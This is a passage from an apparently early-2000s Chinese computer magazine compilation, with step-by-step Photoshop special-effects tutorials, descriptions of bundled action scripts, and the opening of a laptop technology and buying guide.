5. 在主体（石碑）的下方依次放置草绳、古书和光盘三样物品。
6. 将公司的Logo（标志）和名称放置在整幅招贴的最下方（如图13）。
   
   在最下方放置的公司Logo(标志)，它不是广告版面的装饰物，而是重要的构成要素，在整个版面设计中，标志的造型是最单纯、最简洁，视觉效果最强烈的图形之一，它使人在一瞬间就能识别，并能给人留下深刻的印象。这就牵涉到企业CI和VI的设计，在这里就不过多的解释。至此，整个招贴就制作完成了。

（文/楚好）

### 设计论坛

## Photoshop 特效信手拈来

本文除提供了十几款Photoshop特效图形、字体及纹理的制作秘技之外，还展示了多款使用 Actions 脚本制作的特效，这些脚本包含在本书配套光盘中，读者只要在Photoshop中加以装载引用，一次简单的点击，就可以完成一个精彩特效的制作。

### 一、图形特效

### (一)3D球体

用模糊滤镜制作的球体比用渐变制作的效果要更好（如图1）。

- 创建一个新文件，命名为“3D球体”，各设置项参数分别为 300pixels × 300pixels、72dpi、RGB 模式（如图2）。

- 用 Paint Bucket（油漆桶工具）将图像着上黑色背景。然后选中椭圆工具，在选项栏将 Style 设置为 Fixed Size，Width和Height设置为相同大小（本例都为64px），如图3所示。

- 点击层调板底部的 Create new layer 按钮创建新的图层，单击新图层进入该层进行操作。保证椭圆工具为选中状态，然后在图像中心单击鼠标，即可画出一个正圆形的选区。

- 将前景色设置为红色，然后用油漆桶工具在选区内点击，即可得到一个红色的圆形（如图4）。

- 再创建一个新图层，并在该层上进行操作。单击Brush（画笔）工具，在选项栏Brush项中适当设置笔刷的大小，然后如图5所示，涂抹一白一黑两片颜色。

- 在绘有白点和黑点的层，执行Filter > Blur > Gaussian Blur 命令，边调节Radius的数值边观察预览框，直到效果满意为止。

- 通过层特效还可以把它变成三维锥体。执行 Layer > Effects > Bevel & Emboss命令。如图6所示，将 Depth 的值设置到最大，并适当调整 Size 和 Soften 的值即可得到一个三维锥体（如图7）。

### (二)结晶体

是不是怀疑这是用 3DS MAX 制作的效果（如图8）? 实际上它是用 Photoshop 制作出来的。

- 创建一个新文件，大小为 800pixels × 600pixels， RGB 模式。用油漆桶工具为新图像着上黑色背景。

- 用 Elliptical Marquee（椭圆形）工具画一个正圆形选区，并用油漆桶工具着上红色（如图9）。

- 执行 Filter > Stylize > Extrude命令，调出挤压对话框。如图10所示，Type选Pyramids，Size为15Pixels，Depth为 Random 方式，大小为 255。单击 OK 按钮即可完成结晶体效果。

### (三)光芒四射

这里只能给大家看看灰度效果，而彩图看起来会更绚丽（图11）。

- 创建一个新文件，并将背景设置为黑色。

- 使用 Lasso（套索）工具随机画一个选区，然后执行 Filter > Noise > Add Noise命令。如图12所示，将 Amount 调高至 100 多，Distribution 设置为 Gaussian，并复选 Monochromatic项。

- 按 Ctrl+D 取消选择，然后执行 Filter > Blur > Radial Blur命令。如下图13所示，将Amount设置为100，Blur Method设置为Zoom，单击OK按钮。

- Ctrl+F重复执行一次刚才的滤镜命令，得到图14所示的效果。

- 按 Ctrl+U 键，调出 Hue/Saturation 色相饱和度对话框。在 Edit 下拉菜单中选择 Master，并复选右下角的 Colorize 选项，然后可自行调配一种颜色，单击 OK 按钮（如图15）。

- 复制一个新的图层，并将层模式设置为Overlay。然后在新的图层上执行Filter > Distort > Twirl滤镜（如图16）。

- 复制第二个层，并在该层上执行 Filter > Artistic > Plastic Wrap命令，使用默认的设置即可为图像增加一道迷人的光彩了。

### (四)网格球体

这个网格球体具有透视效果，立体感更强（如图17）。

- 创建一个 800pixels × 800pixels 的新图像。

- 单击Channel（通道）面板底部的Create new channel 按钮建立一个 Alpha 通道。然后选择矩形选取工具，在选项栏中，设置Style为Fixed Size，Width和Height都为30px，再在图像区点击，即可画出一个矩形选区来。

- 按D键设置默认颜色（前景为白背景为黑），再按Alt+Backspace键，则在Alpha通道中就画上了一个白色矩形来（如图 18）。

- 执行Select > Modify > Contract命令，在弹出的对话框中设置数字为2，单击OK，则选区缩小了2个像素，此时按Del键，则缩小的选区被填充上黑色。

- 按小键盘上的左箭头和上箭头键各2次，然后执行Edit > Define Pattern命令，弹出一个对话框，直接按OK按钮即可。

- 按Ctrl+D键去掉选区。再创建一个新的Alpha通道，并在工具箱中选中油漆桶工具，然后如图19所示，在选项栏中，设置Fill为Pattern，从Pattern下拉框中单击刚才定义的图案（应该是最后一个图案）。

- 在新建的通道上单击一次，即可画出一个网格图像来（如图 20）。

- 在通道面板上，单击底部的Load channel as selection（左侧第一个按钮）。

- 回到图层面板，并创建一个新图层，然后按D键设置默认颜色，并按 Alt+Backspace 为选区填充上黑色，再按 Ctrl+D 去掉选择（如图 21）。

- 用椭圆形工具画一个大的圆形选区，然后执行Filter > Distort > Sphereize，将Amount值设置成100。

- 执行Select > Inverse命令反选选区，再执行Edit > Clear命令清除多余的网格，一个网格球体便制作完成了。

### (五)触角

在这个实例中，飘逸灵动的触须看起来很优美（如图 22）。

- 创建一个 800pixels × 800pixels 的新图像。

- 单击图层面板底部的Create new layer按钮建立一个新的图层。然后用 Polygonal Lasso（多边形套索） 工具，在该层上画一个三角形选区，并用油漆桶工具填充上颜色，本例中笔者使用的颜色是R：140、G:200、B:255，当然读者也可以使用自己喜欢的颜色了。然后按 Ctrl+D 取消选择（如图 23）。

- 执行Filter > Distort > Shear命令，如图24所示，在变形线上单击鼠标即可产生一个锚点，拖动锚点扭曲变形线，可达到扭曲图像的效果，可以在下面预览效果。满意后单击OK按钮。

- 按 Ctrl+T 键，然后进行旋转、拉伸、移动等操作，调整好后按 Enter（回车） 键（如图25）。

- 现在来为触角增加立体感。再新建一个图层，并在该图层上用 Brush 画笔工具，沿着触角画一条白色曲线（如图26）。

- 再通过 Filter > Blur > Gaussian Blur 命令即可完成如图27所示的立体效果。

- 多制作几条这样的触角，纵横交错，再设置几种不同的透明度，加上适当的文字，即可达到图22所示的效果。

### (六)抽线图

抽线往往能够让绘画作品体现出一种不一样的质感（如图28）。

- 首先打开一个准备加入抽线效果的图像，本例为凡高的《向日葵》（如图29）。

- 建立一个新图层。为了方便后面的操作，可单击背景层前面的眼睛图标，使背景暂时隐藏起来。

- 在新建的图层上，用矩形选取工具画一个横向的细长条，线条的粗细将决定抽线的细密程度，读者可根据自己的需要来决定。

- 按D键设置默认的颜色，然后按Alt+BackSpace键将矩形选区框填充上黑色。

- 执行 Select > Transform Selection 命令，这时选取框上将出现八个锚点，向下拖动下方中间的那个锚点，使选区的高度扩展为原为的2倍为止。按回车键确定（如图30）。

- 执行 Edit > Define Pattern 命令，取默认名称，回车确定。

- 按Delete键删除选区内的黑线，再按Ctrl+D键去掉选择。

- 选中油漆桶工具，在选项栏中Fill项选Pattern，在Pattern 下拉框中点击刚才制作的图案。然后在图层上单击一次（如图31）。

- 再次单击背景层眼睛图标处，使背景层显示，便可看到扫描线的效果了。

### (七)人工降雪

本例为图片加上雪花飞舞的效果（如图32）。

- 打开一个需要添加降雪情景的图片（如图33）。

- 单击图层面板底部的 Create new layer 按钮建立一个新的图层，并用油漆桶工具将其填充上纯白色（如图34）。

- 在该图层执行Filter > Noise > Add noise 命令，将 Amount 的值设为12。

- 再执行Image > Adjust > Threshold命令，设置数值为200（如图35）。大家可以根据自己的实际需要设置这个数值，如果希望雪花密一点，数值就调大一点，反之则小一点。

- 按 Ctrl+I 键，将该层图像取反。

- 为了让雪花有下落的感觉，还需要对它进行进一步的处理。先执行Image > Rotate canvas > 90 CW，然后再执行Filters > Stylize > Wind，命令，风的方向设置为From the Left（如图36）。

- 执行Image > Rotate canvas > 90 CCW命令将图像再转回原位。

- 一般来说，雪是不会直落下来的，应该有一定的斜度。为了使雪景更逼真，可以使用Filter > Distort > Shear命令调整雪落的斜度，如图37所示。

- 雪花是有了，但是它却完全遮住了背景图。这时，需要调整一下雪花图层的层模式了。如图38所示，将层模式设置成Screen即可，一幅逼真的雪景图就制作完成了。

### 二、纹理与文字特效

### (一)霓虹描边字

本例最终效果如图39所示。

- 按 Ctrl+N 键创建一个新文档，大小为 320pixels × 240pixels、72dpi、RGB 模式。

- 用文字工具在图像中输入想要加工的文字，本例中笔者用的是合订本的简写 CFBE。

- 执行 Layer > Layer Style > Stroke 命令，设置如图 40 所示。将 Size 设置为 35px，Position 设置为 Center，Fill Type 设置为 Gradient。Fill Type 选为 Gradient 方式的时候，将会增加一些渐变选项。将 Style 设置为 Shape Burst，Angle 设置为 35 度，Scale 设置为 100%。

- 为了达到特殊效果，可对渐变进行一些改变。单击 Gradient 渐变条，弹出渐变对话框，按照如图 41 所示窗口进行设置即可。

### (二)石材纹理

本效果具有花岗岩般的质感（如图 42）。

- 创建一个 500pixels × 500pixels 的新图像。将前景色设置为黑色，背景设置为深赭色。然后执行 Filter > Render > Clouds。

- 执行 Filter > Noise > Add Noise， 设置 Amount 为 3， Distribution 为 Gaussian， 并复选 Monochromatic项。

- 在通道面板上点击 Create new channel 按钮创建一个新通道，在该通道上执行 Filter > Render > Difference Clouds命令。然后再执行 Filter > Noise > Add Noise 命令， 设置如前。

- 回到图层面板， 然后执行 Filter > Render > Lighting Effects命令， 设置如图43所示。Intensity 设置为 59， Focus 设置为 69； Gloss 设置为 100（Shiny）， Material 设置为 47（Metallic）， Exposure 设置为 -7， Ambience 设置为 3， Texture Channel 则选择 Alpha1 通道， 并将高度设置为 100。

- 最后通过 Image > Adjust > Brightness/ Contrast 命令对图像进行一些微调即可。

### (三)木纹

本例模仿自然界中真实的木纹效果（如图 44）。

- 创建一个 300pixels × 200pixels， RGB 模式新图像。执行 Filter > Add Noise 命令， 如图45所示进行设置。

- 执行 Filter > Blur > Motion Blur 命令， 如图 46 所示进行设置。

- 执行 Filters > Distort > Wave 命令， 如图 47 所示进行设置。

- 执行 Filter > Sharpen > Unsharp mask命令， 将 Amount 设置为最大值， Radius 设置为 3。

- 按 Ctrl+U 键打开 Hue/Saturation 色相/饱和度对话框。复选 Colorize 项， 并设置色相为 20， 饱和度为 55， 亮度为 -20， 单击 OK 确认（如图 48）。

(6) 为了更真实地表现木纹效果，可用套索工具在图像中选取一小块区域，然后对它单独使用 Wave 滤镜再变形，以模仿不规则的木纹效果。

## (四) 挖剪字

仔细看本例效果会有一种环环相扣的感觉(如图49)。


1. 创建新图像，并建立一个 Alpha1 通道，以黑白两色输入文字或设计的 LOGO 图案（如图50）。
2. 选中喷桶工具，在选项栏中设置 Fill 为 Pattern方式，在Pattern下拉列表中点击第四种图案，然后在图像区点击鼠标，即可为图像填充上木质纹理。
3. 建立一个新的图层，在该层中装载 Alpha1 通道中的图像为选区（快捷方式为 Ctrl+Alt+4），将选区填充上黑色（如图51）。
4. 执行 Filter > Stylize > Emboss 命令，如图52所示进行设置。


5. 将层模式设置为 Overlay，使图案看上去有一种透明感。替换不同的背景图案还将会达到不同的视觉效果。

### 三、Action 脚本特效

本书配套光盘中收集有几十种 Action 特效脚本，本文仅举十例，有兴趣的朋友可在光盘 B ：\booksource\ps\actions\ 目录下一一尝试，一定会有意想不到的收获。

另外，许多特效只有在使用笔画很粗的字体时才能显示出来，而朋友们一时又可能找不到适合的字体。别着急，笔者介绍一种方法可以一试：输入蒙版字体后，执行Select > Transform Selection命令，然后拉伸选区大小至你满意为止，回车确定。接着再执行Select > Modify > Expand命令加大选区即可。

### (一) 黑金


这个Actions脚本最低运行版本为Photoshop 5.0。它制作出的字体具有非常逼真的金属质感。文件为本书配套光盘B:\booksource\ps\actions\GoldInDarkness.atn。

因为这是本文中第一个Actions实例，所以在这里详细讲解一下它的用法，后面的实例操作方法大同小异将不再详述。

1. 在Photoshop的Actions面板上单击右上角的三角按钮，再在弹出菜单中单击Load Actions命令（如图54）。


2. 在打开的装载对话框中，找到并选中所需要的脚本文件，如本例中的GoldInDarkness.atn，然后点击Load按钮，即可将其装载到Actions面板中（如图55）。


3. 如图56所示，点击GoldInDarkness前面的箭头，将其展开，然后点选它下面的GoldInDarkness。


4. 单击Actions面板底部的Play按钮（即那个三角按钮）即可开始脚本的自动运行，这个脚本会自动创建一个新文件。
5. 在运行当中，会遇到一些提示（如图57）。


英文大意为：用文字蒙版工具（图标为虚线T的那个工具）输入你想要做成特效的文字，然后继续。
6. 单击Stop按钮关闭对话框。用文字蒙版工具在图像区输入文字，并设置好字体字号及调整好位置。本例中输入的文字为CFBE。设置完毕，就可以单击Play按钮继续了。最终完成的效果如上图53所示。

### (二) 削边


这个脚本产生的效果色彩艳丽，立体感非常强（如图58)。它的最低运行版本为 Photoshop 5.0，脚本文件为光盘B:\booksource\ps\actions\LevelBevel.atn。

### (三) 蛇纹


这个脚本产生的效果类似于蛇皮，所以称为蛇纹效果 (如图59)。脚本文件为光盘 B:\booksource\ps\actions\SnakeSkin.atn。在本例中，笔者选用的字体为 ITC Zapf Dingbats。

### (四) 扫描点

这个 Actions 产生的效果使文字包上一层粗糙的边缘 (如图 60)。脚本文件为光盘 B:\booksource\ps\actions\CellScanner.atn。


### (五) 泥陶


这个脚本产生的效果类似于表面很粗糙的泥陶 (如图61)。最低运行版本为 Photoshop 5.0。脚本文件为光盘B:\booksource\ps\actions\Earthen.atn。

### (六) 蜡烛


如图 62 所示，这是一款非常棒的 Actions 特效脚本，它生成的效果就好像是在雪地上点起蜡烛的感觉 (当然，黑白稿上是看不出这效果的，读者在自己的机器上一试便知)。最低运行版本 Photoshop 5.0。脚本文件为光盘B:\booksource\ps\actions\Candles.atn。

### (七) 碎边


这个脚本产生的效果类似于在沙地上写出的文字 (如图63)。最低运行版本为 Photoshop 6.0。脚本文件为光盘 B:\booksource\ps\actions\Crunch.atn。

### (八) 立体


效果如图64所示，最低运行版本为 Photoshop 6.0。脚本文件为光盘B:\booksource\ps\actions\Absolute.atn。

### (九) 墙纸


效果如图65所示，最低运行版本为 Photoshop 6.0。脚本文件为光盘 B:\booksource\ps\actions\PaperAge.atn (本例使用的字体为 StoneEG-Extra-GB)。

### (十) 多层


在这个 Actions 脚本中大量使用了渐变，效果很华丽 (如图 66)。最低运行版本为 Photoshop 6.0。脚本文件为光盘B:\booksource\ps\actions\TechnoBunnies.atn。

更多精彩，请查阅配套光盘上的相关目录。

(文/刘小青 梦寻 柳絮飞)

### 笔记本电脑完全手册 P139
笔记本电脑的降价预示着笔记本将取代台式机成为家用电脑的主流产品。但是，很多消费者也许并没有用过笔记本，更谈不上了解它了！本专题将从笔记本的历史发展讲起，将笔记本的结构以图解的方式完全展示给您，并详述其技术特点、选购要领、维护保养等相关知识，让笔记本对您来说不再是一个神秘的话题。


### 年终硬件大盘点——电脑配件评析与采购 P154
由于市场的低迷，电脑硬件厂家并没有推出太多更新换代的产品，所以2002年是平淡的一年。但是，平静的背后总会蕴藏着更大的爆发。从各个电脑硬件厂家慎重地推出一款款新旧技术结合的产品来看，它们都在小心地试探着市场的反应，等待时机全力冲刺。本专题以评测的方式总结了今年CPU、主板、显卡、硬盘、内存、显示器等标准配件的技术变化，并结合电子市场中的行情，预测了明年的发展趋势，希望能够为您的选购提供足够的帮助。

### 将硬件维护优化进行到底 P186
对于电脑用户来说，懂得硬件维护优化后，不仅可以使电脑运行快速稳定，还可以避免很多麻烦。其实，这并不需要高深的专业知识，本专题将以务实和通俗易懂的文字，针对实际应用中的各种电脑硬件故障、保养维护、硬件优化等问题，向你全面介绍电脑硬件维护与优化方面的知识。

## 笔记本电脑完全手册

当今社会，计算机的应用已经渗透到各个方面，在人们的生活中的地位和作用是越来越重要。对许多行业的人员来说离开了计算机就无法正常地开展工作。随着计算机网络的飞速发展，传统的移动通讯设备也不能提供和满足人们不断提高的对网络的需求。笔记本电脑从1985年发展至今，也不过近二十年时间，但其硬件设备和部件结构已日趋完善，性能和功能不断增强，并且价格也正在不断降低。特别是近几年来，笔记本电脑技术突飞猛进，性能已逐渐可以和台式机相比，具有了更强的实用性。各厂商为争夺市场份额，更是使出了降低价格的撒手锏，现在中档笔记本电脑的价格已经降到一万元以下，一改高高在上的贵族形象。在当今家庭办公和移动办公已成为时尚之时，笔记本电脑正走向大众，成为家庭办公和移动办公的首选设备。

### 一、笔记本电脑初窥

#### (一) 笔记本概述

笔记本电脑的英文名称是Notebook Computer，有时也简称为Notebook(如图1)。


图1 ACER 630XV型笔记本电脑

顾名思义，笔记本电脑在形上的确类似一个金属的“笔记本”，它的功能与台式机完全相同。笔记本的优点在于体积小、重量轻、可移动性强，能随身携带、随时可以使用。但是它的缺点也很明显，制造成本明显大于台式机，价格偏高，性能又落后于同档次台式机。不过即使这样，笔记本电脑仍然凭借其鲜明的特点，一直保持着稳定的市场份额，与台式机分庭抗礼。

笔记本电脑的内部结构划分类似于台式机，只不过所有部件都尽量缩减体积而已。例如，笔记本电脑显示系统使用的是液晶显示屏，并且可以与主机部分合在一起。笔记本电脑的主机部分包括了键盘和用来代替鼠标的触控板或触控杆，主机内部采用ALL-IN-ONE的设计，并且使用超薄的硬盘、软驱、光存储器等。通过这些设计，使得笔记本电脑甚至可以小到一张16开纸的大小。

#### (二) 笔记本的技术

在设计上，笔记本使用了很多与台式机截然不同的技术。

1. 低发热量、低功耗的CPU设计
   由于笔记本电脑结构紧凑，所以CPU散热才是主要问题。这一方面使得CPU生产厂家努力降低笔记本专用CPU的核心电压，并不断研制更先进的生产工艺；另一方面使得笔记本电脑厂家努力提高笔记本电脑的散热技术。此外，笔记本电脑是靠内部集成的电池提供能源的，所以降低笔记本电脑CPU的功耗也是一个很关键的问题。
2. 低能耗的液晶显示技术
   液晶显示器的主要优点是体积小、重量轻、功耗低、无辐射。除了这些以外，笔记本电脑的液晶显示器生产厂家还把主要技术研究方向定位于提高液晶显示器的使用面积、亮度、对比度，减少液晶显示器延迟时间，降低能耗等方面。
3. 小型化的驱动器技术
   笔记本电脑使用的是2.5寸超薄硬盘和超薄光驱、软驱。笔记本电脑的硬盘体积较小，为达到接近于台式机硬盘的容量，硬盘生产厂家只有在硬盘碟片的存储密度上下功夫，目前笔记本电脑硬盘碟片的存储密度可以达到台式机硬盘的2~4倍。
4. 笔记本电脑的供电系统
   笔记本电脑的供电系统包括电源适配器、充电电池和电源管理系统。为了实现长时间的电池供电，笔记本电脑内部除采用高效锂离子电池和节电元器件外，还运用了电源管理程序来实现节电控制，由系统来管理各部分的电源状态。对暂不工作的部件，系统将使其处于休眠状态以降低功耗。
5. 热管散热技术
   由于笔记本电脑的主机部分结构紧凑，所以除了使用常规的风扇、散热孔、散热板以及键盘对流散热外，还采用了一种热管散热技术(如图2)。


热管散热技术于1963年由美国Los Alamos国家实验室的G.M.Grover发明，并由IBM引入笔记本中，这是一种利用液体在蒸发和液化过程中要吸收或散发热量的特性来进行冷却的技术。典型的热管是由管壳、吸液芯和端盖组成，并充以适量的工作液体，将紧贴管内壁的吸液芯毛细多孔材料中充满液体后加以密封。管的一端为蒸发段(加热段)，另一端为冷凝段(冷却段)，根据需要可以在两段中间布置绝热段。当热管的一端受热时，毛细芯中的液体蒸发汽化，蒸汽在微小的压差下流向另一端放出热量凝结成液体，液体再沿多孔材料靠毛细力的作用流回蒸发段。如此循环不已，热量由热管的一端传至另一端。

#### (三) 笔记本的性能参数

下面将介绍一下描述笔记本电脑配置的一些基本参数。通过这些参数的比较，能够反映出笔记本电脑的性能。

##### 1. CPU基本参数

CPU作为电脑的核心，直接关系到整台电脑的性能以及其他配件的选择，另外由于笔记本的CPU一般不可升级，所以CPU参数对笔记本电脑的影响要比台式机大得多。

笔记本电脑主流CPU有如下几个系列: Intel的Mobile Pentium 4系列、Intel的Mobile Pentium III系列、Intel的Mobile Celeron系列、AMD的Mobile Athlon XP系列、AMD的Mobile Duron系列，以及Transmeta的Crusoe系列等。

对于同系列的CPU来说，最重要的参数是运行频率，运行频率越高，速度也就越快。除了运行频率外，笔记本电脑CPU的重要参数还有总线带宽、缓存容量、制作工艺、封装形式、接口形式和节电方式等。例如现在应用于中高端笔记本电脑的Intel Mobile Pentium 4 CPU的前端总线频率在400MHz下，配备了16KB一级缓存和512KB全速二级缓存，采用0.13μm制作工艺、MFC PGA封装形式、Socket 479接口，使用扩展版SpeedStep节能技术和Deeper Sleep深度睡眠功能。目前Intel Mobile Pentium 4 CPU的运行频率有1.3GHz、1.4GHz、1.6GHz、1.7GHz、1.8GHz和2.0GHz等几种。

##### 2. 内存基本参数

内存是电脑中用于内存储的部件，某些时候内存参数甚至要比CPU主频大小对电脑性能的影响还要大。目前主流笔记本电脑内存包括DDR SDRAM和SDRAM，在一些较老式的笔记本电脑中还可能见到EDO RAM。内存主要参数有内存容量、接口形式、总线带宽、封装形式、延迟时间等。

##### 3. 硬盘基本参数

硬盘是电脑的主要外存储设备，在笔记本电脑中，由于硬盘体积受到限制，所以硬盘容量也受到一定制约。硬盘的主要参数包括容量、单碟容量、碟片数、主电机转速、平均寻道时间、体积、接口类型、噪音和发热量等。例如Toshiba推出过一款名为MK4018GAP的硬盘，容量为80GB，单碟容量40GB，采用双碟片设计，主轴电机转速为4200RPM、平均寻道时间为13ms，盘体宽度为2.5英寸，厚度为12.5mm，采用Ultra ATA/66的接口形式，最大突发数据传输速度为66Mbit/s。

##### 4. 主板参数

笔记本电脑的主板一般采用6层或8层印刷电路板，上面主要集成有显示控制器、输入/输出控制器、磁盘控制器等。由于笔记本电脑主板的集成度较高，所以制作工艺要比台式机先进得多。笔记本电脑主板整合的南北桥芯片组决定着可支持的CPU类型，例如使用Intel 845 MP芯片组或SIS 650芯片组的笔记本电脑可以支持最新的Intel Mobile Pentium 4 CPU，而使用Intel 815 E芯片组或SIS 630E芯片组的笔记本电脑只能支持Intel Mobile Pentium III CPU或Intel Mobile Celeron CPU。另外一个不能忽视的因素是笔记本电脑主板上所整合的显卡芯片，整合显卡芯片的型号直接影响着笔记本电脑的图像画质和3D处理速度。除此之外，主板上I/O芯片的数量也关系到笔记本电脑的扩展能力。

##### 5. 显示屏参数

笔记本电脑一般采用液晶显示屏，液晶显示屏的主要参数包括显示屏尺寸、分辨率、亮度、对比度、视角、响应时间等。

### 二、笔记本电脑的选购

#### (一) 机型

笔记本电脑常见的机型有全内置型、全外挂型、半内置型以及光驱软驱互换型几种。

- 1. 全内置型
  “全内置型”就是光驱、软驱完全安装在主机内部，这样的笔记本比全外置笔记本电脑主机厚1cm左右，重量也要多出0.5kg左右。由于全内置机型体积较大，可以给散热器留出较多空间，同时可以使用较大容量的内置电池，所以部分厂家在这种机型的笔记本电脑中可能会使用台式机的CPU。全内置机型的缺点很突出，体积大、重量大、携带不方便，有悖于笔记本电脑设计的初衷。这种类型的笔记本电脑较适合不经常携带笔记本电脑外出的用户。
- 2. 全外挂型
  这种机型的笔记本电脑主机部分一般追求小巧、轻便，将光驱和软驱以外挂的形式通过USB端口或其他接口与笔记本连接。这种笔记本电脑的使用更加灵活，但是在拆装光驱和软驱时稍显麻烦。另外，这种笔记本电脑生产厂家一般会把大部分精力投入到提高整合度、解决散热以及降低内部芯片发热量上，这就造成了全外挂型的笔记本电脑一般配置不高但价格不菲。所以全外挂型笔记本电脑适合那些经常外出、网络连接方便、对性能要求不是很高的用户。
- 3. 半内置型
  随着电脑技术的发展，软驱在电脑中的作用越来越小，使用到软驱的机会越来越少，因此一些新型笔记本电脑省略掉软驱或将软驱以外挂的形式连接到主机中，从而使笔记本电脑在厚度只有少量增加的前提下，功能得到扩充，这就使得这种类型笔记本电脑机身比全内置型要薄得多。
- 4. 光驱软驱互换型
  由于现在仍然有某些用户对软驱有较高的使用率，因此一些厂家就开始将软驱和光驱做成接口相同的模块，两者共用同一个插槽，配合一些特殊的驱动程序，使两者之间实现热插拔，但是光驱和软驱不能同时使用这个插槽。同时笔记本电脑生产厂家为了兼顾偶尔同时使用光驱和软驱的用户，往往也会提供一根特殊的转接线，以便在使用光驱的同时也可以将软驱外挂使用。

#### (二) 品牌

除了选择一款适于用户自己的机型以外，另一个重要的选购因素就是品牌了。一般来说，用户都希望买到性价比高的商品，但是在笔记本电脑选购中，仍旧要本着“一分钱一分货”的原则，也就是说购买笔记本电脑时不要一味追求低廉的价格。

笔记本电脑与台式机不同，由于笔记本电脑整合度高、技术含量高，如果出现硬件故障一般用户是无法自行解决的，只能将笔记本电脑送到维修部门去处理，所以一般来说应该购买那些品牌较大的笔记本电脑，从而得到更好的品质保证。此外品牌好的笔记本还会采用一些较高档次的主板、显示系统、音效系统，这些也都无法体现在一张简单的配置单上，但是实际使用中，这些差别却对性能和稳定性起着近乎决定性的作用。

中国笔记本电脑市场常见的进口品牌有IBM、惠普、索尼、东芝、明基、华硕等；中国大陆的品牌有联想、方正、紫光等。在价格上，国产品牌一般较国外品牌相对低廉一些。建议用户根据自己的购买力以及实际需要合理确定几个品牌，做到购买之前有一定目的性。

另外，几个大的笔记本电脑生产厂家生产出来的笔记本也都有自己的特色。例如，IBM笔记本电脑的稳定性无与伦比，比较适合办公一族使用；康柏的笔记本电脑具备了不错的多媒体性能，适合那些对音效系统要求较高的用户使用；索尼的笔记本电脑一般是超轻、超薄，适合那些经常携带笔记本电脑外出的用户选用；明基的笔记本电脑整体配置较为均衡，而且生产线位于国内，所以性能价格比较高。

#### (三) 基本配件

如果用户已经确定所要选购的笔记本电脑的品牌和机型，下面要做的就是确定笔记本电脑的基本参数。一般来说，笔记本电脑的配置也是因人而异，只有根据用户自己的需要定制的配置才会合理，而许多用户在购买笔记本电脑时往往只注重CPU的工作频率和笔记本电脑的价格，其实CPU只是笔记本电脑配件之一，CPU工作频率高低虽然对笔记本电脑的性能有一定影响，但并不是决定性因素。所以购买笔记本电脑时要从各个配件的性能参数入手，并且根据用户自身工作需要均衡考虑，这样才会使购得的笔记本电脑在使用时更加适合自己。下面笔者就按配件进行分类，介绍一下如何定制一款适合用户自己的笔记本电脑。

## 表1 不同厂家CPU性能对比

| 生产厂家 | CPU名称 | 工作频率 | 一级缓存 | 二级缓存 | 节电技术 |
| :--- | :--- | :--- | :--- | :--- | :--- |
| Intel | Mobile Pentium 4 | 1.3GHz ~ 1.8GHz | 16KB | 256KB 或 512KB | 加强型 SpeedStep 技术 |
| Intel | Mobile Pentium III | 450MHz ~ 1.13GHz | 32KB | 256KB 或 512KB | SpeedStep 技术 |
| Intel | Mobile Celeron | 600MHz ~ 1.3GHz | 32KB | 128KB | SpeedStep 技术 |
| AMD | Mobile Athlon | 1.4GHz ~ 2.0GHz | 128KB | 256KB | PowerNow!技术 |
| AMD | Mobile Duron | 700MHz ~ 1.2GHz | 128KB | 64KB | PowerNow!技术 |
| Transmeta | Crusoe | 500MHz ~ 667MHz | 32KB | 256KB 或 512KB | LongRun 技术 |
| VIA | Cyrix III | 500MHz ~ 1GHz | 128KB | 256KB | 无 (但自身发热量很小) |

以及如何挑选一款质量过硬的笔记本电脑。

### 1. CPU

谈到笔记本电脑，其核心就是CPU，由于笔记本电脑的CPU一般不具备升级的特性，所以选购一款合适的CPU，是选购笔记本的一个重点。目前市场上主流的笔记本电脑CPU及其基本参数见表1。

现在市场上主流中高端笔记本电脑一般采用Intel Mobile Pentium 4 CPU 或者高工作频率的 Mobile Pentium III CPU。这两种CPU各有千秋，Mobile Pentium 4 CPU依靠其较高的工作频率，可以得到较快的运行速度，但是发热量过高，而 Mobile Pentium III CPU在运行速度较快的同时很好地控制了发热量和能耗。如果用户资金宽裕，可根据自己的需要选购这两个系列的CPU。由于这两个系列的CPU本身运算速度已经很快，所以用户没必要为了微小的频率差异投入更大的资金，而且更高工作频率的CPU的发热量和功耗更大。

Intel Mobile Celeron CPU 本身的发热量很小，虽然速度较同工作频率的Mobile Pentium III CPU 或 Mobile Pentium 4 CPU 略慢，但是其凭借低廉的价格成为具有最高性价比的笔记本电脑CPU。凭着这个特点，Mobile Celeron CPU 成为资金并不宽裕而需要购买笔记本电脑的用户，特别是学生的首选。选购这个系列CPU时，由于CPU在整台笔记本电脑中所占的成本并不是很高，而且这时CPU对整台笔记本电脑性能有较大的影响，所以在价格相差不大的情况下，建议用户选购更高工作频率的 Mobile Celeron CPU。

AMD 公司生产的分别用于中高端和低端笔记本电脑市场的 Mobile Athlon CPU 和 Mobile Duron CPU，由于相对同工作频率的Intel CPU有着较高的运算速度和较低的价格，也成为一些追求性价比用户的不错选择。但是由于核心设计和制作工艺的限制，即使 AMD 公司在其笔记本电脑 CPU 上使用 PowerNow! 节电技术，其功耗和发热量也仍困扰着笔记本电脑生产厂家和笔记本电脑用户，所以一般只有某些厂家全内置的机型才会采用 AMD 的CPU。

至于 Transmeta 生产的 Crusoe 系列 CPU，其优势在于低耗电，整合部分的芯片组，以及非常吸引超轻薄机器的低发热量。大部分采用 Crusoe CPU 的笔记本电脑根本就不用装设风扇，这进一步降低了系统的耗电。因此 Crusoe 内部的电路非常简单，晶体管数目很少，这使得它的耗电低得惊人，一度成为笔记本电脑延长电池使用时间的希望。但是 Crusoe 系列 CPU 的性能甚至低于同工作频率的 Intel Celeron 系列 CPU，所以只能使用在一些掌上型笔记本电脑中。

而一些入门级的笔记本电脑，为了控制生产成本，也会采用 VIA 生产的 Cyrix III 系列 CPU。但是这种CPU 的速度实在过慢，而且没有技术优势，所以笔者不建议购买。

使用笔记本电脑专用 CPU，除了因为其比同工作频率的台式机 CPU 有着较低的电压而带来的较低功耗和发热量之外，还因为笔记本电脑专用的CPU采用了一些先进的节电技术，下面以较有代表性的 Intel SpeedStep 技术为例，作简要介绍。

SpeedStep 技术是一项创新性的技术，它可以让处理器在2种工作模式之间随意地切换，即通电状态时的最高性能模式(Maximum Performance Mode)和电池状态时的电池优化模式(Battery Optimized Mode)。所谓最高性能模式是指当笔记本电脑与交流电源连接时，可提供与台式机近似的性能；而电池优化模式是指当笔记本使用电池时，会让笔记本电脑的性能发挥与其电池使用时间达到最佳的平衡。如Intel 推出的使用 SpeedStep 技术的650MHz和600MHz的处理器，当它们以最高性能模式运行时，可以提供650MHz或600MHz的工作频率，而以电池优化模式运行时，处理器的工作频率是500MHz。

